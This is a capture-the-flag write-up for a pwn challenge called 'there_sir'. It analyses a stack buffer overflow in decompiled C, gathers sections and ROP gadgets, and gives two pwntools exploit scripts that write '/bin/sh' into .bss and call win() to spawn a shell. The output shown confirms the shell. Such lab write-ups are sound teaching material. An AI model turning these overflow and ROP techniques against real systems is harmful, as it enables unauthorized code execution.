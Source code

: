 # there\_sir

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Looking at `vuln()` decompiled:

```c
void vuln(void)

{
  undefined buffer [64];
  
  printf("Enter something: ");
  read(0,hurm,16);
  printf("Enter message: ");
  read(0,buffer,1024);
  return;
}
```

We can see a clear Overflow here:

```c
read(0,buffer,1024);
```

There is also a `win()` function:

```c
void win(int param_1,char *param_2)

{
  if (param_1 != 0x539) {
    printf("Nice try hacker");
    exit(0);
  }
  system(param_2);
  return;
}
```

We are required to pass in two arguments, `1337` and `/bin/sh` . But the catch here is that the 2'nd argument is pointer not an integer like 1'st argument. The solution is we need to use the `read()` syscall which has a PLT entry to read `/bin/sh` at a specific address.

```
❯ rabin2 -S chall
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000318   0x1c 0x00400318   0x1c -r-- PROGBITS    .interp
2   0x00000338   0x30 0x00400338   0x30 -r-- NOTE        .note.gnu.property
3   0x00000368   0x24 0x00400368   0x24 -r-- NOTE        .note.gnu.build-id
4   0x0000038c   0x20 0x0040038c   0x20 -r-- NOTE        .note.ABI-tag
5   0x000003b0   0x28 0x004003b0   0x28 -r-- GNU_HASH    .gnu.hash
6   0x000003d8  0x138 0x004003d8  0x138 -r-- DYNSYM      .dynsym
7   0x00000510   0x82 0x00400510   0x82 -r-- STRTAB      .dynstr
8   0x00000592   0x1a 0x00400592   0x1a -r-- GNU_VERSYM  .gnu.version
9   0x000005b0   0x30 0x004005b0   0x30 -r-- GNU_VERNEED .gnu.version_r
10  0x000005e0   0x60 0x004005e0   0x60 -r-- RELA        .rela.dyn
11  0x00000640   0xc0 0x00400640   0xc0 -r-- RELA        .rela.plt
12  0x00001000   0x1b 0x00401000   0x1b -r-x PROGBITS    .init
13  0x00001020   0x90 0x00401020   0x90 -r-x PROGBITS    .plt
14  0x000010b0   0x80 0x004010b0   0x80 -r-x PROGBITS    .plt.sec
15  0x00001130  0x25a 0x00401130  0x25a -r-x PROGBITS    .text
16  0x0000138c    0xd 0x0040138c    0xd -r-x PROGBITS    .fini
17  0x00002000   0x3f 0x00402000   0x3f -r-- PROGBITS    .rodata
18  0x00002040   0x5c 0x00402040   0x5c -r-- PROGBITS    .eh_frame_hdr
19  0x000020a0  0x140 0x004020a0  0x140 -r-- PROGBITS    .eh_frame
20  0x00002e10    0x8 0x00403e10    0x8 -rw- INIT_ARRAY  .init_array
21  0x00002e18    0x8 0x00403e18    0x8 -rw- FINI_ARRAY  .fini_array
22  0x00002e20  0x1d0 0x00403e20  0x1d0 -rw- DYNAMIC     .dynamic
23  0x00002ff0   0x10 0x00403ff0   0x10 -rw- PROGBITS    .got
24  0x00003000   0x58 0x00404000   0x58 -rw- PROGBITS    .got.plt
25  0x00003058   0x10 0x00404058   0x10 -rw- PROGBITS    .data
26  0x00003068    0x0 0x00404070   0x30 -rw- NOBITS      .bss
27  0x00003068   0x2b 0x00000000   0x2b ---- PROGBITS    .comment
28  0x00003098  0x498 0x00000000  0x498 ---- SYMTAB      .symtab
29  0x00003530  0x276 0x00000000  0x276 ---- STRTAB      .strtab
30  0x000037a6  0x11f 0x00000000  0x11f ---- STRTAB      .shstrtab
```

Using `rabin2` we can see which section we want to tell `read()` to look at, in this case I will choose `.bss` section because it has a lot of space and has RW permissions.

`read()`  takes in 3 arguments:

```
read(fd, dest-memory-address, num-of-bytes)
```

The file descriptor will be `0` (Read from `stdin` ). Other than that we need to make sure it has enough gadgets to pass in 3 arguments.&#x20;

```
❯ ropper --file chall --search "pop"
...
...
[INFO] File: chall
0x00000000004011fd: pop rbp; ret; 
0x0000000000401381: pop rdi; ret; 
0x0000000000401385: pop rdx; ret; 
0x0000000000401383: pop rsi; ret;
```

Perfect, we have the RDI, RSI and RDX gadgets. Now we can build the script

### Manual Script

```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)
context.log_level = 'info'

io = process()


offset = 72

bss_location = 0x00404070
pop_rdi = 0x401381
pop_rsi = 0x401383
pop_rdx = 0x401385
win_addr = elf.sym['win']

# Find read address
read_plt = elf.plt['read']


payload = flat(
	b'A' * offset,

	pop_rdi,
	0,
	pop_rsi,
	bss_location,
	pop_rdx,
	16,
	read_plt,

	pop_rdi,
	1337,
	pop_rsi,
	bss_location,
	
	win_addr	
)

io.sendlineafter(b"Enter something: ", b"kambing")
io.sendlineafter(b"Enter message: ", payload)

# send "/bin/sh\0" to be written to .bss
io.sendline(b"/bin/sh\x00")
io.interactive()
```

After sending the payload, only then we send the `/bin/sh` string when `read()` is invoked, waiting input from `stdin` . This writes the string to that address.

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/there_sir/chall': pid 110461
...
...
[*] Loaded 8 cached gadgets for './chall'
[*] Switching to interactive mode
$ whoami
mfkrypt
$  
```

### Auto Script

We can also do a ROP chain to automatically write the string to that address without manually finding the gadgets, as the ROP function will do that for us

```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)
context.log_level = 'debug'

io = process()


offset = 72

bss_location = 0x00404070
pop_rdi = 0x401381
pop_rsi = 0x401383
pop_rdx = 0x401385
win_addr = elf.sym['win']

# Find read address
read_plt = elf.plt['read']



#ROP chain
rop = ROP(elf)
rop.call(read_plt, [0, bss_location, 16])  # Read /bin/sh to .bss
rop.call(win_addr, [0x539, bss_location])   # Call win with args


payload = flat(
    b'A' * offset,    
    rop.chain()       
)

io.sendlineafter(b"Enter something: ", b"kambing")
io.sendlineafter(b"Enter message: ", payload)

# send "/bin/sh\0" to be written to .bss
io.sendline(b"/bin/sh\0")
io.interactive()
```

```
❯ python3 script.py

[+] Starting local process '/home/mfkrypt/bbctf/pwn/there_sir/chall': pid 110461
...
...
[*] Loaded 8 cached gadgets for './chall'
[*] Switching to interactive mode
$ whoami
mfkrypt
$  
```
